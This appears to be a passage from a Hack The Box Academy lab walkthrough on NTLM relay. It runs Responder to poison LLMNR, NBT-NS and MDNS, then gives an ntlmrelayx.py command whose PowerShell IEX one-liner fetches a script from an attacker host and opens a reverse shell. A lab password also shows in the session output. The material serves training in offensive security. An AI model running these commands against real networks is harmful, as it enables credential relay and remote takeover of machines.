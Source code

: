 Code: shell

```shell
cd tools/Responder
sudo python3 Responder.py -I ens192
```

Code: session

```shelll-session
htb-student@ubuntu:~$ cd tools/Responder
htb-student@ubuntu:~/tools/Responder$ sudo python3 Responder.py -I ens192
[sudo] password for htb-student: HTB_@cademy_stdnt!
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [OFF]
    Kerberos server            [ON]
<SNIP>
```

Students will start `ntlmrelayx.py` with the `-tf` option followed by the `targets.txt` file located in the `tools/Responder` directory, and the `-smb2support` option providing `SMBv2` support for hosts that are requiring it, and the `-c` for the command that will be executed on the host that the authentication has been relayed to as long as the user has access in it.

Code: shell

```shell
cd tools/Responder
sudo ntlmrelayx.py -tf ./targets.txt -smb2support -c "powershell -c IEX(New-Object NET.WebClient).DownloadString('http://172.16.117.30:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 172.16.117.30 -Port PWNPO"
```
